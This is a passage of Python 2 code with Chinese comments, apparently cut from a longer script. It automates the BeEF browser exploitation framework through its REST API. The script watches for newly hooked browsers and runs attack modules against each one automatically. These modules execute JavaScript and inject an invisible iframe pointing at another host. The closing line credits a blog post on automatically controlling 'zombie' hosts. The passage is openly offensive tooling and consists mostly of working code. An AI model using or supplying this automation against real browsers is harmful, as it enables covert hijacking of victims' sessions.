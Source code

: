 ```
    print "   >>> [+] Module Redirect Browser has been Executed ! "
    return jsondata

	
# 创建一个隐藏的Frame,target是目的地的url
# Misc -> IBM iNotes -> Create Invisible iframe
def createIFrame(host, sessionId, authkey):
    postdata = '{"target":"http://192.168.137.134:8000/"}'
    url = host + "api/modules/" + sessionId + "/4?token1=" + authkey
    req = urllib2.Request(url, postdata)
    req.add_header("Content-Type", "application/json; charset=UTF-8")
    f = urllib2.urlopen(req)
    print "   >>> [+] Module Create Invisible Iframe has been Executed ! "
    return f.read()



	
def autoRunModules(host,session,authkey):
    # sendConfirm(host, session, authkey)
    execJavascript(host, session, authkey)
    # redirectBrowser(host, session, authkey)


def timeRun(interval,host):
    authkey = getauthkey(host)
    print "[+] AutoBeef is running...."
    print "[+] BeEF KEY is : "+ authkey
    print "[+] Base BeEF API URL: "+ host + "api/"
    print "[+] Hook URL   : " + host + "hook.js"
    print "[+] Hook Demo  : " + host + "demos/basic.html"
    while True:
        try:
            getHookedBrowsersSession(host, authkey)
            for x in hostdict:
                if hostdict[x] not in hostlist:
                    hostlist.append(hostdict[x])
                    autoRunModules(host,hostdict[x],authkey)
            time.sleep(interval)
        except Exception, e:
            print e

if __name__ == '__main__':
    beefhost = "http://192.168.137.134:3000/"
    timeRun(3,beefhost)
```
脚本出处：
https://www.cnblogs.com/ssooking/p/6959239.html#_label0 【利用BeEF REST API自动化控制僵尸主机】
